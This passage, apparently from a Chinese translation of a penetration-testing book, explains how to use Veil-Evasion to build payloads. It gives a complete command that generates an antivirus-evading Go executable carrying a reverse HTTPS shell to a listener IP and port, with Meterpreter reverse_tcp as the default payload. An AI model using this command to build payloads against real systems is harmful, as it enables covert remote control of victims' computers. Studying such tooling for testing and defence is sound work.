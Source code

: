在*图 9.14*中，按 *Tab* 键展示了一些可用的有效载荷；然而，默认选项（`windows/meterpreter/reverse_tcp`）被选中了：

![](img/B17765_09_14.png)

图 9.14：成功创建一个包含有效载荷的文件

Veil-Evasion 利用程序也可以直接从终端创建，使用以下选项。在此示例中，我们使用选项 14 通过 Go 创建一个有效载荷可执行文件：

```
sudo veil –t Evasion -p 14 --ordnance-payload rev_https --ip 192.168.1.7 --port 443 -o Outfile 
```

上述命令应输出包含有效载荷可执行文件、源代码和资源文件的文件，并将其传送到 Metasploit 有效载荷，如*图 9.15*所示：

![计算机屏幕截图  描述自动生成，信心中等](img/B17765_09_15.png)
